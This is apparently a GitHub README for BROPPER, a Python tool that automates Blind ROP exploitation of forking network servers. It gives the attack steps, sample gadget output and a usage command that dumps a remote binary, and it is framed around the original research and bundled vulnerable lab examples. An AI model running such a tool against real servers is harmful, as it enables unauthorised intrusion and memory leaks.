 # BROPPER

<p align="center">
  An automatic Blind ROP exploitation python tool
  <br>
  <br>
</p>

## Abstract 
BROP (Blind ROP) was a technique found by Andrew Bittau from Stanford in 2014.

- [Original paper](https://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [Slides](https://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)

Most servers like nginx, Apache, MySQL, forks then communicates with the client. This means canary and addresses stay the same even if there is ASLR and PIE. So we can use some educated brute force to leak information and subsequently craft a working exploit.

## Flow of exploitation

1. Find buffer overflow offset
2. Find canary
3. Find saved registers (RBP / RIP)
4. Find stop gadgets
5. Find brop gadgets
6. Find a Write function (write / dprintf / puts / ...)
7. Leak the binary

## Examples of Results

There is 3 customs vulnerable examples provided in this repository. You can run it directly or build the Dockerfile

![](./.github/example.png)

BROPPER will then dump the binary : 

![](./.github/example_dump.png)

It's then possible to extract all ROP gadgets from the dumped binary using ROPgadget for example : 
```bash
$ ROPgadget --binary dump
Gadgets information
============================================================
0x0000000000001177 : adc al, 0 ; add byte ptr [rax], al ; jmp 0x1020
0x0000000000001157 : adc al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x1020
0x0000000000001137 : adc byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x1020
...
...
...
0x0000000000001192 : xor ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 0x16 ; jmp 0x1020
0x000000000000182e : xor eax, 0x891 ; mov rdi, rax ; call rcx
0x0000000000001861 : xor eax, 0xffffff22 ; mov rdi, rax ; call rcx

Unique gadgets found: 235
```

## Script usage 

To use this script:

```bash
python3 -m pip install -r requirements.txt
python3 bropper.py -t 127.0.0.1 -p 1337 --wait "Password :" --expected Bad --expected-stop Welcome -o dump
```
```bash
$ python3 bropper.py -h
usage: bropper.py [-h] -t TARGET -p PORT --expected-stop EXPECTED_STOP --expected EXPECTED --wait WAIT -o OUTPUT [--offset OFFSET] [--canary CANARY] [--no-canary] [--rbp RBP] [--rip RIP] [--stop STOP]
                  [--brop BROP] [--plt PLT] [--strcmp STRCMP] [--elf ELF]

Description message

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target url
  -p PORT, --port PORT  target port
  --expected-stop EXPECTED_STOP
                        Expected response for the stop gadget
  --expected EXPECTED   Expected normal response
  --wait WAIT           String to wait before sending payload
  -o OUTPUT, --output OUTPUT
                        File to write dumped remote binary
  --offset OFFSET       set a offset value
  --canary CANARY       set a canary value
  --no-canary           Use this argument if there is no stack canary protection
  --rbp RBP             set rbp address
  --rip RIP             set rip address
  --stop STOP           set stop gadget address
  --brop BROP           set brop gadget address
  --plt PLT             set plt address
  --strcmp STRCMP       set strcmp entry value
  --elf ELF             set elf address
```
## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
